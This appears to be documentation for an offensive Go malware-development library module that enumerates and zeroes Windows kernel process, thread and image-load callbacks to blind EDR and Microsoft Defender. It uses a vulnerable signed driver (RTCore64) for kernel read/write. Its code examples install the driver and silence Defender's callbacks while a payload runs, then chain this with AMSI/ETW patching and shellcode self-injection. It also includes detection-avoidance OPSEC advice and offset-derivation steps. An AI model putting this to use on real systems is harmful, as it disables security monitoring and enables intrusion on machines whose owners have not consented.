

---
---

# Kernel callback enumeration + removal

[← evasion area README](README.md) · [docs/index](../../index.md)

## TL;DR

EDR drivers don't just hook userland — they register **kernel
notification callbacks** so the OS itself tells them every time
a process / thread / image is created. Userland evasion (AMSI
patches, ntdll unhooking) is invisible to these callbacks.
Killing them at the kernel level is the only way to blind the
EDR's process-spawn telemetry without admin-level driver work.

This package gives you two operations:

| Operation | What you need | What you get |
|---|---|---|
| [`Enumerate`](#enumeratereader-kernelreader-offsets-offsettable-callback-error) | A `KernelReader` (BYOVD) + the running ntoskrnl's offset table | List of every registered callback (kind / index / address / owning driver / enabled bit) — directly reveals which EDR driver is listening |
| [`Remove`](#removerw-kernelreadwriter-kind-callbackkind-index-int-removetoken-error) + [`Restore`](#restorerw-kernelreadwriter-kind-callbackkind-index-int-token-removetoken-error) | A `KernelReadWriter` (BYOVD) + the index of a callback to silence | EDR stops getting that event class until you restore (or process exits) |

What this DOES achieve:

- Process / thread / image-load callbacks for the targeted EDR
  go silent. The driver still runs, but it stops being notified.
- Surgical: you can kill one EDR's callbacks without affecting
  Windows Defender or other agents.

What this does NOT achieve:

- **Userland telemetry stays alive** — AMSI, ETW, inline hooks
  in ntdll. Layer with [`evasion/preset.Stealth`](preset.md) for
  those.
- **Other kernel hook surfaces stay intact** — minifilter
  callbacks (`FltRegisterFilter`), object callbacks
  (`ObRegisterCallbacks`), Etw kernel-mode providers, etc. The
  EDR can still see file opens / handle ops via those. Each is
  a separate attack.
- **Doesn't bypass HVCI/PG** — Microsoft's PatchGuard scans
  these arrays periodically. If your driver's BYOVD primitive
  triggers PG, you BSOD. Tested with RTCore64 → safe; untested
  drivers may not be.

⚠ **Requires BYOVD** — every kernel R/W primitive in this
codebase routes through a signed-but-vulnerable driver
(RTCore64, `kdmapper` + custom, EDRSandBlast). User-mode alone
cannot read or write `nt!Psp*NotifyRoutine` arrays. See
[`kernel/driver/rtcore64`](https://pkg.go.dev/github.com/oioio-space/maldev/kernel/driver/rtcore64).

## Primer — vocabulary

Six terms recur on this page:

> **Notification callback** — a function pointer drivers register
> via `PsSetCreateProcessNotifyRoutine`/etc. The kernel calls
> every registered function on the relevant event (process
> creation, thread creation, image load). Up to 64 slots per
> array.
>
> **`PEX_CALLBACK`** — packed 64-bit slot value: upper 60 bits
> point at a `ROUTINE_BLOCK`, lower 4 bits are flags
> (enabled / refcount). The actual callback function lives at
> offset 8 inside the `ROUTINE_BLOCK` — one indirection beyond
> the slot.
>
> **BYOVD** ("Bring Your Own Vulnerable Driver") — load a
> legitimately-signed-but-vulnerable third-party driver (RTCore64
> from MSI Afterburner, GIGABYTE GDRV, …) that exposes an IOCTL
> for arbitrary kernel R/W. The driver itself is signed, so
> Driver Signature Enforcement loads it; the *vulnerability*
> gives you the kernel primitive. Required for everything in
> this package.
>
> **`OffsetTable`** — caller-supplied RVAs of `PspCreateProcessNotifyRoutine`
> and friends in `ntoskrnl.exe`. Different per Windows build —
> changes with every cumulative update. No built-in database
> because hardcoding stale offsets points at garbage.
>
> **PatchGuard (PG)** — Windows kernel integrity check that
> scans critical structures periodically. Some BYOVD primitives
> trigger PG → BSOD. RTCore64's slow IOCTL pattern stays under
> the radar; faster drivers may not.
>
> **HVCI (Hypervisor-protected Code Integrity)** — Win11 default
> mitigation that runs the kernel under a hypervisor and refuses
> to map unsigned kernel memory. HVCI ON breaks most BYOVD paths
> (the driver loads but its kernel writes get blocked). The
> rtcore64 path documents which builds it bypasses.

Modern EDR / AV products hook into kernel event streams by registering
**kernel notification callbacks** via `PsSetCreateProcessNotifyRoutine`,
`PsSetCreateThreadNotifyRoutine`, and `PsSetLoadImageNotifyRoutine`.
Each API appends a callback slot to one of three in-kernel arrays:

| Array | Trigger | Used by |
|---|---|---|
| `PspCreateProcessNotifyRoutine` | `NtCreateUserProcess` | EDR process-start telemetry |
| `PspCreateThreadNotifyRoutine` | `PspInsertThread` | EDR thread-start telemetry |
| `PspLoadImageNotifyRoutine` | `MiMapViewOfImageSection` | EDR image-load scanning |

Each slot is a `PEX_CALLBACK` — a 64-bit value where the upper 60
bits point at a `ROUTINE_BLOCK` and the lower 4 bits are flags
(enabled, reference count). The real callback function lives at
offset 8 inside the `ROUTINE_BLOCK`.

**Enumerating** the arrays tells the operator which driver registered
which callback — typically directly revealing the EDR's kernel driver
+ the function it hooks. **Removing** a slot is the more aggressive
play: the EDR stops seeing the relevant kernel events. Both paths
need arbitrary kernel R/W, which user-mode alone cannot reach. Every
public technique (EDRSandBlast, kdmapper + custom driver, RTCore64)
relies on a signed-driver primitive — **BYOVD**.

## How It Works



Steps:

1. `NtoskrnlBase` resolves the kernel image base via
   `NtQuerySystemInformation(SystemModuleInformation)` —
   user-mode-only, no driver needed.
2. `Enumerate` reads the three callback arrays from
   `base + RVA` for each configured array, masks the lower 4
   tag bits, follows the `ROUTINE_BLOCK + 8` indirection to the
   actual callback function, and resolves the owning driver via
   `DriverAt` (best-effort module-name lookup).
3. `Remove` (separate primitive) reads the original 8-byte slot,
   captures it into an opaque `RemoveToken`, then writes 8 zero
   bytes. The EDR's notify routine stops being called as soon as
   the kernel sees the zero write.
4. `Restore` re-writes the captured token; safe to defer
   immediately after `Remove` because `RemoveToken{}` `IsZero()`
   makes restore a no-op when `Remove` returned an error.

The read-original / write-zero pair has a ~µs race window where a
competing actor could observe a half-written slot. RTCore64 issues
both IOCTLs fast enough that production scanners rarely observe
this in practice.

### Per-build offset table

`OffsetTable.CreateProcessRoutineRVA` /
`CreateThreadRoutineRVA` / `LoadImageRoutineRVA` are
**caller-populated**. The package ships no built-in database
because offsets shift with every cumulative ntoskrnl update —
hardcoding a stale offset would point callers at garbage and
silently produce wrong results.

Derivation workflow (offline, one-time per build):

1. Grab the victim's `ntoskrnl.exe` from
   `C:\Windows\System32\ntoskrnl.exe`.
2. Fetch its PDB:
   `symchk /if ntoskrnl.exe /s SRV*c:\symbols*https://msdl.microsoft.com/download/symbols`.
3. Dump the symbol RVA:
   `llvm-pdbutil dump --globals ntoskrnl.pdb | grep PspCreateProcessNotifyRoutine`.
4. Record the RVA in `OffsetTable{Build: 19045, CreateProcessRoutineRVA: 0xC1AAA0, ...}`.
5. Build a `map[uint32]OffsetTable` keyed by build and pick at
   runtime via `win/version.Current().BuildNumber`.

EDRSandBlast publishes a regularly-updated offset table — treat it
as upstream reference, not as committed library state.

## API → godoc

[`pkg.go.dev/github.com/oioio-space/maldev/evasion/kcallback`](https://pkg.go.dev/github.com/oioio-space/maldev/evasion/kcallback) is the authoritative
reference for every exported symbol. This page teaches the
*concepts*; the godoc is the *specification*.

## Examples

### Simple — enumerate

```go
v := version.Current()
tab := offsetsByBuild[v.BuildNumber] // operator-curated map
if tab.Build == 0 {
    log.Fatalf("no offsets for ntoskrnl build %d", v.BuildNumber)
}

reader := MyDriverReader{} // any BYOVD KernelReader
cbs, err := kcallback.Enumerate(&reader, tab)
if err != nil {
    log.Fatal(err)
}
for _, cb := range cbs {
    fmt.Printf("%v[%d] -> %#x (%s) enabled=%v\n",
        cb.Kind, cb.Index, cb.Address, cb.Module, cb.Enabled)
}
```

Sample output:

```text
KindCreateProcess[0] -> 0xFFFFF80123456789 (ntoskrnl.exe) enabled=true
KindCreateProcess[1] -> 0xFFFFF88765432100 (cidevrt.sys)  enabled=true
KindCreateProcess[2] -> 0xFFFFF89abcdef000 (WdFilter.sys) enabled=true
KindCreateThread [0] -> 0xFFFFF89abcdef800 (WdFilter.sys) enabled=true
KindLoadImage    [0] -> 0xFFFFF89abcdef100 (WdFilter.sys) enabled=true
```

### Composed — RTCore64 + selective Remove + Restore

Pair the enumeration with a driver-backed `KernelReadWriter`,
zero the slots owned by the EDR's notify routines for the
duration of the payload, then restore everything before exit.

```go
import (
    "github.com/oioio-space/maldev/evasion/kcallback"
    "github.com/oioio-space/maldev/kernel/driver/rtcore64"
)

var d rtcore64.Driver
if err := d.Install(); err != nil {
    log.Fatal(err)
}
defer d.Uninstall()

tab := kcallback.OffsetTable{
    Build:                   19045,
    CreateProcessRoutineRVA: 0xC1AAA0,
    CreateThreadRoutineRVA:  0xC1AC20,
    LoadImageRoutineRVA:     0xC1AB40,
    ArrayLen:                64,
}

cbs, _ := kcallback.Enumerate(&d, tab)

defenderModules := map[string]bool{
    "WdFilter.sys": true, "MsSecCore.sys": true, "WdNisDrv.sys": true,
}
var tokens []kcallback.RemoveToken
for _, cb := range cbs {
    if !defenderModules[cb.Module] {
        continue
    }
    tok, err := kcallback.Remove(cb, &d)
    if err != nil {
        log.Printf("remove %v[%d]: %v", cb.Kind, cb.Index, err)
        continue
    }
    tokens = append(tokens, tok)
}
defer func() {
    for _, tok := range tokens {
        _ = kcallback.Restore(tok, &d)
    }
}()

// ... payload runs while the Defender callbacks are silenced ...
```

### Advanced — chain into self-injection

Composing `kcallback` with `inject` and `evasion/preset` so the
disabled-callback window covers the noisiest part of the chain:

```go
// 1. BYOVD up.
var d rtcore64.Driver
_ = d.Install()
defer d.Uninstall()

// 2. Apply the in-process Stealth preset (AMSI / ETW / unhook).
caller := wsyscall.New(wsyscall.MethodIndirect, wsyscall.NewHashGate())
defer caller.Close()
_ = preset.Stealth().ApplyAll(caller)

// 3. Zero Defender callbacks.
cbs, _ := kcallback.Enumerate(&d, tab)
var tokens []kcallback.RemoveToken
for _, cb := range cbs {
    if cb.Module != "WdFilter.sys" {
        continue
    }
    if tok, err := kcallback.Remove(cb, &d); err == nil {
        tokens = append(tokens, tok)
    }
}
defer func() {
    for _, tok := range tokens {
        _ = kcallback.Restore(tok, &d)
    }
}()

// 4. Self-inject.
inj, _ := inject.NewWindowsInjector(&inject.WindowsConfig{
    Config:        inject.Config{Method: inject.MethodCreateThread},
    SyscallMethod: wsyscall.MethodIndirect,
})
_ = inj.Inject(shellcode)
```

## OPSEC & Detection

| Vector | Visibility | Mitigation |
|---|---|---|
| BYOVD driver install (`NtLoadDriver` + SCM) | very-noisy — every vendor watches | accept; this is the price of any kernel R/W primitive |
| `NtQSI(SystemModuleInformation)` from low-IL | medium-IL gate; flagged in some pre-injection patterns | run from an already-elevated context |
| Slot write itself | invisible at user-mode; visible to defender drivers that snapshot the array | reduce window: zero → run payload → restore fast |
| Race between read and write | ~µs window; rarely observable | use RTCore64 (fast IOCTL) over slower drivers |
| Module name in `Callback.Module` | static reveal of EDR driver presence | informational; use to decide whether to engage |

D3FEND counters: **D3-DLIC** (Driver Load Integrity Checking) on the
BYOVD load path, **D3-AIPA** (Application Integrity Analysis) on
post-disable EDR sensors that re-snapshot their own callbacks.

## MITRE ATT&CK

| T-ID | Name | Sub-coverage | D3FEND counter |
|---|---|---|---|
| [T1562.001](https://attack.mitre.org/techniques/T1562/001/) | Impair Defenses: Disable or Modify Tools | kernel-callback array zero | D3-AIPA |
| [T1014](https://attack.mitre.org/techniques/T1014/) | Rootkit | kernel-mode access | D3-DLIC |
| [T1543.003](https://attack.mitre.org/techniques/T1543/003/) | Create or Modify System Process: Windows Service | BYOVD service install | D3-SBV |

## Limitations

- **User-mode read is impossible.** `NullKernelReader` (the default
  injection target) always returns `ErrNoKernelReader`. A real
  enumeration needs a driver primitive.
- **Offsets shift frequently.** Pin your offset table to specific
  build numbers; always fall back to `ErrOffsetUnknown` when the
  current build isn't mapped. The package intentionally ships no
  built-in database.
- **The Enabled bit is approximate.** The low bit of a `PEX_CALLBACK`
  slot isn't universally "enabled" — in some Windows builds it's
  part of the reference count. Trust the `Address` field as the
  primary signal; treat `Enabled` as a hint.
- **No removal-helper-by-module.** A `RemoveByModule(name, writer)`
  convenience is on the backlog; today operators iterate the
  `Enumerate` result and check `cb.Module` themselves.
- **HVCI / vulnerable-driver block list.** RTCore64 is refused on
  HVCI-on Win10/11 ≥ 2021-09 — pick a different BYOVD or accept
  the gate. `kcallback` is driver-agnostic; any reader satisfying
  `KernelReader` works.

## See also

- [Evasion area README](README.md)
- [`kernel/driver`](../kernel/README.md) — supplies the BYOVD R/W primitive consumed here
- [`kernel/driver/rtcore64`](../kernel/byovd-rtcore64.md) — concrete signed-driver implementation
- [package godoc](https://pkg.go.dev/github.com/oioio-space/maldev/evasion/kcallback)
